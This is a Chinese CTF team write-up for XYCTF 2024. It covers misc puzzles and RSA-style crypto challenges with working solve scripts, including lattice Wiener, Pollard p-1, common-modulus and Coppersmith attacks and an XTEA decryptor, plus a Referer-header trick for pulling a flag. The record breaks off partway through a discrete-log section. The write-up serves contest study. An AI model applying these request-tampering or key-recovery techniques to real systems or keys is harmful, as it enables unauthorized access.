# XYCTF-wp-0x5f3759df

# 比赛信息

## 比赛时间

2024 4.1 10:00:00 - 2024 4.26 10:00:00

## 队伍名称

0x5f3759df

## 参赛队员

MetaMiku moywdr yyc

## 最终名次

42题

12506分

43名




## Misc

### [Solved]game

### [Solved]zzl的护理小课堂

**By yyc**

f12查看源码，大致逻辑是：通过POST方法发送分数到`getScore.php`获取得分，在收到响应后，如果分数大于100分，再发起一个GET请求到`flag.php`来获取flag，并显示在页面上。

那么就可以通过修改请求头来获取flag，把Referer改成/getScore.php即可

### [Solved]熊博士

**By yyc**

```
CBXGU{ORF_BV_NVR_BLF_CRZL_QQ}

ABCDEFGHIJKLMNOPQRSTUVWXYZ
  C  F             T   XY
  X  U             G   CB
ZYXWVUTSRQPONMLKJIHGFEDCBA
```

前几位应该是XYCTF，对照发现这是把字母表颠倒了一下，换回去得到flag（所以熊大熊二那张图是干嘛用的？

### [Solved]签到

**By moywdr**

### [Solved]ez_隐写

**by moywdr**

### [Solved]真>签到

**By moywdr**

### [Solved]TCPL

**By moywdr**

### [Solved]Osint1

**By yyc**

### [Stuck]baby_AIO4

**By MetaMiku**

```Python
from functools import *
from Crypto.Util.number import *
import gmpy2
import libnum

p = libnum.generate_prime(512)
q = libnum.generate_prime(512)
e1 = libnum.generate_prime(150)
e2 = libnum.generate_prime(150)
e3 = 65537
flag = '*****************************************'
m = libnum.s2n(flag)
n = p * q
n_e = e1 * e2
phi = (p - 1) * (q - 1)
phi_e = (e1 - 1) * (e2 - 1)
d_e = gmpy2.invert(e3,phi_e)
dp = d_e % (e1 - 1)
c1 = pow(m,e1,n)
c2 = pow(m,e2,n)
print('n =', n)
print('n_e = ', n_e)
print('c1 =', c1)
print('c2 =', c2)
print('dp =', dp)
print('e3 =', e3)


n = 60984961924036640364806324068224697071843724749390772716648370179057892113876360274026354662527777447902822720596626094363633542717821045035441273653134740082082972528467040631675108058268481211224587979227700303746708094408639881186270901498495613159595719501389800228775436242418332342165682104816100945559
n_e =  528565534050303289402007510968179435618186732104470795324112506464649249469837867028185617
c1 = 14643165800600469237679161939570210679439096911755461832302138620621212724063371108183767129591712055258072458698793819383057004625557577440444773493982158481797933707633029392859049044470914532014267958303995860803871791733761877112192748951375669095992152628840179729532225161446048952172457991042916248568
c2 = 47744166763747993083913069262560688521758241055343711330487778299969300229670028543968082464934326523754042128559756835029869433598546417098582906459369495989688837877596260888669274901459794346656919486877501825652169698125071792901224555479266468029736677586557495945618181583432146191688552560789016927665
dp = 487978202023750799970713551102136558437027925
e3 = 65537
```

 由

$$
e_3d_e = 1 + k_1(e_1 - 1)(e_2 - 1)\\ d_p = d_e + k_1(e_1 - 1)
$$

得

$$
e_3(d_p - k_1(e_1 - 1)) = 1 + k_1(e_1 - 1)(e_2 - 1)
$$

模$(e_1 - 1)$

$$
e_3 d_p = 1 + k_1(e_2 - 1)\\
e_3 d_p - 1 = k_1(e_2 - 1)
$$

$e_3 d_p - 1$较小，故分解：

$$
e_3 d_P -1 = 31980627426030556177680653998580723630287499120724\\
=2^2\cdot 3^3\cdot 7^2\cdot 13\cdot 571\cdot 3371\cdot 328243\cdot 982396003\cdot 748939732495642581143771
$$

由于`e2 = libnum.generate_prime(150)`估测 $k_1$ 范围

$$
k_1 \in [\frac{e_3 d_p - 1}{2^{149}},\frac{e_3 d_p - 1}{2^{150}}]
$$

爆破 $k_1$

```Python
from sympy import isprime
primelist = [2,2,3,3,3,7,7,13,571,3371]
length = len(primelist)
ke_1 = 31980627426030556177680653998580723630287499120724
k_range = range(ke_1 >> 150, ke_1 >> 149)
for i in range(2**length):
    choiceList = list(bin(2**length+i)[3:])
    k = 1
    for j in range(length):
        if choiceList[j] == '1':
            k *= primelist[j]
        else:
            continue
    if not k in k_range:
        continue
    if isprime(ke_1//k+1):
        print(k)
# 44538
```

得到 $k_1$ 唯一解 $44538$ ，可解 $e_1,e_2$ ，剩下就是简简单单的共模攻击：

```Python
from libnum import n2s
from gmpy2 import gcdext
n = 60984961924036640364806324068224697071843724749390772716648370179057892113876360274026354662527777447902822720596626094363633542717821045035441273653134740082082972528467040631675108058268481211224587979227700303746708094408639881186270901498495613159595719501389800228775436242418332342165682104816100945559
n_e = 528565534050303289402007510968179435618186732104470795324112506464649249469837867028185617
c1 = 14643165800600469237679161939570210679439096911755461832302138620621212724063371108183767129591712055258072458698793819383057004625557577440444773493982158481797933707633029392859049044470914532014267958303995860803871791733761877112192748951375669095992152628840179729532225161446048952172457991042916248568
c2 = 47744166763747993083913069262560688521758241055343711330487778299969300229670028543968082464934326523754042128559756835029869433598546417098582906459369495989688837877596260888669274901459794346656919486877501825652169698125071792901224555479266468029736677586557495945618181583432146191688552560789016927665
ke_1 = 31980627426030556177680653998580723630287499120724
k_1 = 44538

e_2 = ke_1 // k_1
e_1 = n_e // e_2
assert e_1 * e_2 == n_e
_,s1,s2 = gcdext(e1,e2)
m = pow(c1,s1,n) * pow(c2,s2,n) % n
print(n2s(int(m)))
# b'the key of txt is XYXY1l0v3y0u and another key is 99 88 77 66'
```

**By moywdr**

enc 文件base64解密后是50个zip文件套娃,(这个zip一开始最后有一句The username is WelcomeXY) 利用上面得出的XYXY1l0v3y0u获取what is this zip的内容, The first password is SuyunandXiao, The secord password is ZhaoWuandSuyun, The third password is Shinandlingfeng, The fourth password is nydnandk0rian, The fifth password is faultandalei

从第五个开始倒着循环使用password解开50个zip的到一个apk文件，解压时出现crc校验错误,疑似back.jpg有问题? 有三个dex文件，用dex2jar，配合jd-gui得到




主逻辑在libezvm.so里



简单分析得是一个套了vm的魔改xtea,

```C
#include <stdio.h>
#include <stdint.h>

//加密函数
void encrypt(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
        unsigned int i;
        uint32_t v0 = v[0], v1 = v[1], sum = 0, delta = 0x12345678;
        for (i = 0; i < num_rounds; i++) {
                v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
                sum += delta;
                v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 10) & 3]);
        }
        v[0] = v0; v[1] = v1;
}

//解密函数
void decrypt(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {
        unsigned int i;
        uint32_t v0 = v[0], v1 = v[1], delta = 0x12345678, sum = delta*num_rounds;
        for (i = 0; i < num_rounds; i++) {
                v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum >> 10) & 3]);
                sum -= delta;
                v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
        }
        v[0] = v0; v[1] = v1;
}

int main(int argc, char *argv[])
{
        // v为要加解密的数据，两个32位无符号整数
        uint32_t v[2] = {0xC354C36C, 0x9F701DCE};
        //k为加解密密钥，4个32位无符号整数，密钥长度为128位
        uint32_t k[4] = { 99,88,77,66 };
        int n = sizeof(v) / sizeof(uint32_t);
        // num_rounds，建议取值为32
        unsigned int r = 32;
        //printf("加密前原始数据：0x%x 0x%x\n", v[0], v[1]);
        //encrypt(r,v, k);
        //printf("加密后的数据：0x%x 0x%x\n", v[0], v[1]);
        decrypt(r,v, k);
        printf("解密后的数据：0x%x 0x%x\n", v[0], v[1]);
        for (int i = 0; i < n; i++)
        {
                for (int j = 0; j < sizeof(uint32_t) / sizeof(uint8_t); j++)
                {
                        printf("%c", (v[i] >> (j * 8)) & 0xFF);
                }
        }
        printf("\n");
        return 0;
}
//https://baby.imxbt.cn/
```

得到一个网址https://baby.imxbt.cn/ ,结合上面的The username is WelcomeXY,知道用户名是这个，(但说实话我apk没逆完，里面的back.jpg好像有点问题，不知道会不会藏password，但他这题明显考察crypto ,re，web ,misc能力，是该在这里放个web题了，所以现在的信息应该是全的，web解完后可能还要pwn? hhh)

## Crypto

### [Solved]factor1

**By MetaMiku**

> 这个e咋比n还大啊

```Python
import gmpy2
import hashlib
from Crypto.Util.number import *

p = getPrime(512)
q = getPrime(512)
d = getPrime(512)
e = gmpy2.invert(d, (p**3 - 1) * (q**3 - 1))
flag = "XYCTF{" + hashlib.md5(str(p + q).encode()).hexdigest() + "}"
print(e)
print(p * q)
# 172005065945326769176157335849432320425605083524943730546805772515111751580759726759492349719668775270727323745284785341119685198468883978645793770975366048506237371435027612758232099414404389043740306443065413069994232238075194102578269859784981454218948784071599231415554297361219709787507633404217550013282713899284609273532223781487419770338416653260109238572639243087280632577902857385265070736208291583497988891353312351322545840742380550393294960815728021248513046077985900158814037534487146730483099151396746751774427787635287611736111679074330407715700153025952858666841328055071403960165321273972935204988906850585454805923440635864200149694398767776539993952528995717480620593326867245714074205285828967234591508039849777840636255379730281105670496110061909219669860172557450779495125345533232776767292561378244884362014224844319802810586344516400297830227894063759083198761120293919537342405893653545157892446163
# 99075185389443078008327214328328747792385153883836599753096971412377366865826254033534293886034828804219037466246175526347014045811852531994537520303063113985486063022444972761276531422538694915030159420989401280012025249129111871649831185047820236417385693285461420040134313833571949090757635806658958193793
```

已知 $(pq,e)$ 和关系：

$$
ed = k(p^3-1)(q^3-1) + 1
$$

求 $p+q$

记 $n = pq, \space s=p+q$

利用格实施扩展Wiener攻击

$$
ed = k(p^3q^3 -p^3 -q^3 +1)+1
$$

记 $N = n^3=p^3q^3,\space S = p^3+q^3-1$

$$
ed = k(N - S) + 1\\
ed - kN = -kS + 1
$$

$$
\begin{bmatrix} d&-k \end{bmatrix} \begin{bmatrix} e &0\\
N &1 \end{bmatrix} = - \begin{bmatrix} kS-1 &k \end{bmatrix}
$$

配平系数 $D = N^{1/2}$ 即`D = 2^(N.nbits()//2)`

$$
\begin{bmatrix} d&-k \end{bmatrix} \begin{bmatrix} e &0\\
N &D \end{bmatrix} = - \begin{bmatrix} kS-1 &Dk \end{bmatrix}
$$

故写脚本

```Python
e = 172005065945326769176157335849432320425605083524943730546805772515111751580759726759492349719668775270727323745284785341119685198468883978645793770975366048506237371435027612758232099414404389043740306443065413069994232238075194102578269859784981454218948784071599231415554297361219709787507633404217550013282713899284609273532223781487419770338416653260109238572639243087280632577902857385265070736208291583497988891353312351322545840742380550393294960815728021248513046077985900158814037534487146730483099151396746751774427787635287611736111679074330407715700153025952858666841328055071403960165321273972935204988906850585454805923440635864200149694398767776539993952528995717480620593326867245714074205285828967234591508039849777840636255379730281105670496110061909219669860172557450779495125345533232776767292561378244884362014224844319802810586344516400297830227894063759083198761120293919537342405893653545157892446163
n = 99075185389443078008327214328328747792385153883836599753096971412377366865826254033534293886034828804219037466246175526347014045811852531994537520303063113985486063022444972761276531422538694915030159420989401280012025249129111871649831185047820236417385693285461420040134313833571949090757635806658958193793
N = n**3
D = 2^(N.nbits()//2)
B = matrix([[e,0],[N,D]])
L = B.LLL()

assert abs(L[0,1]) % D == 0
k = abs(L[0,1]) // D

assert (abs(L[0,0]) +1) % k == 0
S = (abs(L[0,0]) + 1) // k
p3_plus_q3 = S + 1

from gmpy2 import iroot
assert iroot(p3_plus_q3 ** 2 - 4 * N,2)[1]
p3_sub_q3 = iroot(p3_plus_q3 ** 2 - 4 * N,2)[0]

p,_ = iroot((p3_plus_q3 + p3_sub_q3) // 2,3)
assert _

q,_ = iroot((p3_plus_q3 - p3_sub_q3) // 2,3)
assert _

print("p =", p)
print("q =", q)
assert n == p * q


import hashlib
flag = "XYCTF{" + hashlib.md5(str(p + q).encode()).hexdigest() + "}"
print(flag)
# p = 10754959493573546439510276829300246769373124436128170955050379041986504869221750743052397622171703140881050431144683659643071578143360949942206693325622779
# q = 9212046353930376594996890089494718736894378991991381248242532319628627449681664076081705664941905594411935750003102856235503684466394327681725704255564467
# XYCTF{a83211a70e18145a59671c08ddc67ba4}
```

### [Solved]babyRSAMAX

**By MetaMiku**

> 听说你们数学很好，我不信我不信；）

```Python
from Crypto.Util.number import *
from gmpy2 import *
from random import choice

flag = b'XYCTF{******}'
e = '?'
def getBabyPrime(nbits):
    while True:
        p = 1
        while p.bit_length() <= nbits:
            p *= choice(sieve_base)
        
        if isPrime(p+1):
            return p+1

p = getBabyPrime(512)
q = getBabyPrime(512)
n = p*q
gift1 = (pow(p,e,n)-pow(q,e,n)) % n
gift2 = pow(p+q,e,n)

t = 65537
x = bytes_to_long(e)
y = pow(x, t, n)

m = bytes_to_long(flag)
c = powmod(m, e, n)

print(f'n = {n}')
print(f'gift1 = {gift1}')
print(f'gift2 = {gift2}')
print(f'c = {c}')
print(f'y = {y}')

'''
n = 39332423872740210783246069030855946244104982381157166843977599780233911183158560901377359925435092326653303964261550158658551518626014048783435245471536959844874036516931542444719549997971482644905523459407775392702211086149279473784796202020281909706723380472571862792003687423791576530085747716706475220532321
gift1 = 4549402444746338327349007235818187793950285105091726167573552412678416759694660166956782755631447271662108564084382098562999950228708300902201571583419116299932264478381197034402338481872937576172197202519770782458343606060544694608852844228400457232100904217062914047342663534138668490328400022651816597367310
gift2 = 111061215998959709920736448050860427855012026815376672067601244053580566359594802604251992986382187891022583247997994146019970445247509119719411310760491983876636264003942870756402328634092146799825005835867245563420135253048223898334460067523975023732153230791136870324302259127159852763634051238811969161011462
c = 16938927825234407267026017561045490265698491840814929432152839745035946118743714566623315033802681009017695526374397370343984360997903165842591414203197184946588470355728984912522040744691974819630118163976259246941579063687857994193309554129816268931672391946592680578681270693589911021465752454315629283033043
y = 1813650001270967709841306491297716908969425248888510985109381881270362755031385564927869313112540534780853966341044526856705589020295048473305762088786992446350060024881117741041260391405962817182674421715239197211274668450947666394594121764333794138308442124114744892164155894256326961605137479286082964520217

'''
```

`gift`无用，直接从平滑数下手

```Python
from gmpy2 import gcd
a = 2
b = 2
while True:
    a = pow(a, b, n)
    p = gcd(a-1, n)
    if p != 1 and p != n:
        q = n // p
        print(f"{p = }")
        print(f"{q = }")
        break
    b += 1
# p = 236438400477521597922950445153796265199072404577183190953114805170522875904551780358338769440558816351105253794964040981919231484098097671084895302287425479
# q = 166353789373057352195268575168397750362643822201253508941052835945420624983216456266478176579651490080696973849607356408696043718492499993062863415424578199
```

解`x`

```Python
p = 236438400477521597922950445153796265199072404577183190953114805170522875904551780358338769440558816351105253794964040981919231484098097671084895302287425479
q = 166353789373057352195268575168397750362643822201253508941052835945420624983216456266478176579651490080696973849607356408696043718492499993062863415424578199
y = 1813650001270967709841306491297716908969425248888510985109381881270362755031385564927869313112540534780853966341044526856705589020295048473305762088786992446350060024881117741041260391405962817182674421715239197211274668450947666394594121764333794138308442124114744892164155894256326961605137479286082964520217
phi = (p-1) * (q-1)
t = 65537
s = pow(t,-1,phi)
x = pow(y,s,n)
print(long_to_bytes(x))
# b'XYCTF{e==4096}'
```

$e = 409$ 无法找到逆元 $d$

通常RSA中逆元 $d$ 的作用是在模 $\varphi(n)$ 时使得$ed \equiv 1$

现在找不到 $d$ 那就找一个 $r$ 使得结果 $er \mod{\varphi(n)}$ 最小

使用下面循环进行搜寻

```Python
p = 236438400477521597922950445153796265199072404577183190953114805170522875904551780358338769440558816351105253794964040981919231484098097671084895302287425479
q = 166353789373057352195268575168397750362643822201253508941052835945420624983216456266478176579651490080696973849607356408696043718492499993062863415424578199
e = 4096
c = 16938927825234407267026017561045490265698491840814929432152839745035946118743714566623315033802681009017695526374397370343984360997903165842591414203197184946588470355728984912522040744691974819630118163976259246941579063687857994193309554129816268931672391946592680578681270693589911021465752454315629283033043
n = p * q
phi = (p-1) * (q-1)
while 1:
    r = phi // e + 1
    if e == r * e % phi:
        break
    e = r * e % phi
    c = pow(c,r,n)

print("e =", e)
print("c =", c)
# e = 4
# c = 1744844481363575120645287633354684742069943605364157817457652357618819037761100817309089698045830934927279189558209346657508882468222784943983912389936216939285768341753255217109594964640045126383465010176406381361800746657164297665894529096506764109549100625
```

模意义开方有点慢，先试试直接开方

```Python
from Crypto.Util.number import long_to_bytes
from gmpy2 import iroot
e = 4
c = 1744844481363575120645287633354684742069943605364157817457652357618819037761100817309089698045830934927279189558209346657508882468222784943983912389936216939285768341753255217109594964640045126383465010176406381361800746657164297665894529096506764109549100625
assert iroot(c,e)[1]
print(long_to_bytes(iroot(c,e)[0]))
# b'XYCTF{Rabin_is_so_biggggg!}'
```

直接出了，怎么说

希望出题人下次看清变量类型，是`int`,`bytes`还是`bytes`,`chr`？

### [Solved]Sign1n（签到）

**By MetaMiku**

```Python
from Crypto.Util.number import *
from tqdm import *
import gmpy2
flag=b'XYCTF{uuid}'
flag=bytes_to_long(flag)
leak=bin(int(flag))
while 1:
    leak += "0"
    if len(leak) == 514:
        break

def swap_bits(input_str):
    input_list = list(input_str[2:])
    length = len(input_list)

    for i in range(length // 2):
        temp = input_list[i]
        input_list[i] = input_list[length - 1 - i]
        input_list[length - 1 - i] = temp

    return ''.join(input_list)

input_str = leak
result = swap_bits(input_str)
a=result

def custom_add(input_str):
    input_list = list(input_str)
    length = len(input_list)
    
    for i in range(length):
        input_list[i] = str((int(input_list[i]) + i + 1) % 10)

    result = ''.join(input_list)
    return result

input_str = a
result = custom_add(input_str)
b=result
print(b)
#12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567891134567789112455689902335577801124556899112456678902344577801223457780112445689902334677990124557789122355788001334568990223467790113445678012235578800134456899023356679001344567991223557880013355788901245667890234456899023355788001344578890133566789023445778902335677900133556899122346779911344578801233467789112355779912234577990233556780113
from Crypto.Util.number import long_to_bytes
e = 12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567891134567789112455689902335577801124556899112456678902344577801223457780112445689902334677990124557789122355788001334568990223467790113445678012235578800134456899023356679001344567991223557880013355788901245667890234456899023355788001344578890133566789023445778902335677900133556899122346779911344578801233467789112355779912234577990233556780113
c = list(str(e))
for i in range(512):
    c[i] = str((int(c[i]) - i - 1) % 10)
for i in range(8):
    m = int(''.join(c[::-1]),2) >> i
    print(long_to_bytes(m))
# b.'。。。。'
# b'XYCTF{5ce7a843-f885-436c-87ba-1afbd989fefd}。。。。'
# b.'。。。。'
```

### [Solved]happy_to_solve1

**By MetaMiku**

```Python
from Crypto.Util.number import *
import sympy
from secrets import flag


def get_happy_prime():
    p = getPrime(512)
    q = sympy.nextprime(p ^ ((1 << 512) - 1))
    return p, q


m = bytes_to_long(flag)
p, q = get_happy_prime()
n = p * q
e = 65537
print(n)
print(pow(m, e, n))
# 24852206647750545040640868093921252282805229864862413863025873203291042799096787789288461426555716785288286492530194901130042940279109598071958012303179823645151637759103558737126271435636657767272703908384802528366090871653024192321398785017073393201385586868836278447340624427705360349350604325533927890879
# 14767985399473111932544176852718061186100743117407141435994374261886396781040934632110608219482140465671269958180849886097491653105939368395716596413352563005027867546585191103214650790884720729601171517615620202183534021987618146862260558624458833387692782722514796407503120297235224234298891794056695442287
```

$(p,q)$由特殊方法生成，显而易见：

$$
p + q \gtrsim 2^{512}
$$

或说：

$$
p + q = 2^{512} + x
$$

其中 $x$ 很小

由素数定理可知，素数分布的平均间距和自身大小呈对数关系，在 $2^{512}$ 量级素数分布的平均距离是 $\bar{x} = \ln(2^{512}) \approx 354.28$ ，这个数相当小，因此尝试直接爆破 $x$

```Python
from gmpy2 import iroot
from sympy import isprime
from Crypto.Util.number import long_to_bytes
n = 24852206647750545040640868093921252282805229864862413863025873203291042799096787789288461426555716785288286492530194901130042940279109598071958012303179823645151637759103558737126271435636657767272703908384802528366090871653024192321398785017073393201385586868836278447340624427705360349350604325533927890879
c = 14767985399473111932544176852718061186100743117407141435994374261886396781040934632110608219482140465671269958180849886097491653105939368395716596413352563005027867546585191103214650790884720729601171517615620202183534021987618146862260558624458833387692782722514796407503120297235224234298891794056695442287
x = 0
print()
while 1:
    print(f"Trying {x = }",end='\r')
    p_plus_q = (1 << 512) + x
    if iroot(p_plus_q ** 2 - 4 * n, 2)[1]:
        p_sub_q = iroot(p_plus_q ** 2 - 4 * n, 2)[0]
        p = (p_plus_q + p_sub_q) // 2
        q = n // p
        if (p * q == n) and isprime(p) and isprime(q):
            break
    x += 1


print(f"\n{p = }\n{q = }")

phi = (p-1) * (q-1)
e = 65537
d = pow(e,-1,phi)
m = pow(c,d,n)
print(long_to_bytes(m))
# Trying x = 208
# p = mpz(11186104509771514497905845277525414324848282003961401424656189058347435564219816052776565548550435972724614541793612778837623695399649245354880712765072167)
# q = mpz(2221703420171082601668179720680431802631083816630991953067372385374328465853730924025308749616467454965417316392873272016130187412297324591552936241012137)
# b'XYCTF{3f22f4efe3bbbc71bbcc999a0a622a1a23303cdc}'
```

### [Solved]反方向的密码 相思

**By MetaMiku**

> 长相思兮长相忆,短相思兮无穷极。你所寻找的flag到底在哪里呢？flag格式为XYCTF{*}

`pad()`后的`m`格式为：

```Plain
XYCTF{        <flag>         }        <hash>
6 bytes      k bytes      1 bytes    256 bits
```

后面的哈希的可能性相当有限，取值取决于位置部分的长度，可以爆破；未知部分相对较少；加密指数`e`很小；

尝试构造多项式用`coppersmith`解`small_roots()`

```Python
from Crypto.Util.number import *
import hashlib
def hash(x):
    return hashlib.sha256(x.encode()).digest()

e = 3
n = 143413213355903851638663645270518081058249439863120739973910994223793329606595495141951165221740599158773181585002460087410975579141155680671886930801733174300593785562287068287654547100320094291092508723488470015821072834947151827362715749438612812148855627557719115676595686347541785037035334177162406305243
c = 120440199294949712392334113337541924034371176306546446428347114627162894108760435789068328282135879182130546564535108930827440004987170619301799710272329673259390065147556073101312748104743572369383346039000998822862286001416166288971531241789864076857299162050026949096919395896174243383291126202796610039053
R.<x> = PolynomialRing(Zmod(n), implementation='NTL')
for k in range(0, 128):
    print('Trying '+ str(k),end='\r')
    flag = 'XYCTF{' + '\x00'*k + '}'
    m = flag.encode() + hash(str(len(flag)))
    m_long = bytes_to_long(m)
    f = (m_long + x * 2^(256+8)) ^ e - c
    f = f.monic()
    roots = f.small_roots(X = 2^(k*8))
    if roots:
        print('\nlen = ' + str(k) + ', roots =', str(roots))
        for root in roots:
            print(b'XYCTF{' + long_to_bytes(int(root)) + b'}')
# b'XYCTF{!__d3ng__hu0__1@n__3h@n__Chu__!}'
```

### [Solved]**Complex_dlp**

**By MetaMiku**

```Python
from Crypto.Util.number import *
from secrets import flag


class Complex:
    def __init__(self, re, im):
        self.re = re
        self.im = im

    def __mul__(self, c):
        re_ = self.re * c.re - self.im * c.im
        im_ = self.re * c.im + self.im * c.re
        return Complex(re_, im_)

    def __str__(self):
        if self.im == 0:
            return str(self.re)
        elif self.re == 0:
            if abs(self.im) == 1:
                return f"{'-' if self.im < 0 else ''}i"
            else:
                return f"{self.im}i"
        else:
            return f"{self.re} {'+' if self.im > 0 else '-'} {abs(self.im)}i"


def complex_pow(c, exp, n):
    result = Complex(1, 0)
    while exp > 0:
        if exp & 1:
            result = result * c
            result.re = result.re % n
            result.im = result.im % n
        c = c * c
        c.re = c.re % n
        c.im = c.im % n
        exp >>= 1
    return result


flag = flag.strip(b"XYCTF{").strip(b"}")
p = 1127236854942215744482170859284245684922507818478439319428888584898927520579579027
g = Complex(3, 7)
x = bytes_to_long(flag)
print(complex_pow(g, x, p))
# 5699996596230726507553778181714315375600519769517892864468100565238657988087817 + 198037503897625840198829901785272602849546728822078622977599179234202360717671908i
```

复数域下的`DLP`问题

$$
(3+7i)^x \equiv y  \pmod{p}
$$

尝试过从模**长**、辐角和实部虚部自身关系入手，实在难以处理 $\mod{p}$ 这个条件:

自己写一段小数尝试找规律：

```Python
g = Complex(3,7)
p = 17
for x in range(64):
    y = complex_pow(g,x,p)
    re,im = y.re, y.im
    print(f"{x = } \t {str(y)} \t {re**2 + im**2} \t {(re**2 + im**2) % p}")

# x = 0    1               1       1
# x = 1    3 + 7i          58      7
# x = 2    11 + 8i         185     15
# x = 3    11 + 16i        377     3
# x = 4    6 + 6i          72      4
# x = 5    10 + 9i         181     11
# x = 6    1 + 12i         145     9
# x = 7    4 + 9i          97      12
# x = 8    4i              16      16
# x = 9    6 + 12i         180     10
# x = 10   2 + 10i         104     2
# x = 11   4 + 10i         116     14
# x = 12   10 + 7i         149     13
# x = 13   15 + 6i         261     6
# x = 14   3 + 4i          25      8
# x = 15   15 + 16i        481     5
# x = 16   1               1       1
# x = 17   3 + 7i          58      7
# x = 18   11 + 8i         185     15
# x = 19   11 + 16i        377     3
# x = 20   6 + 6i          72      4
# x = 21   10 + 9i         181     11
# x = 22   1 + 12i         145     9
# x = 23   4 + 9i          97      12
# x = 24   4i              16      16
# x = 25   6 + 12i         180     10
# x = 26   2 + 10i         104     2
# x = 27   4 + 10i         116     14
# x = 28   10 + 7i         149     13
# x = 29   15 + 6i         261     6
# x = 30   3 + 4i          25      8
# x = 31   15 + 16i        481     5
# x = 32   1               1       1
# x = 33   3 + 7i          58      7
# x = 34   11 + 8i         185     15
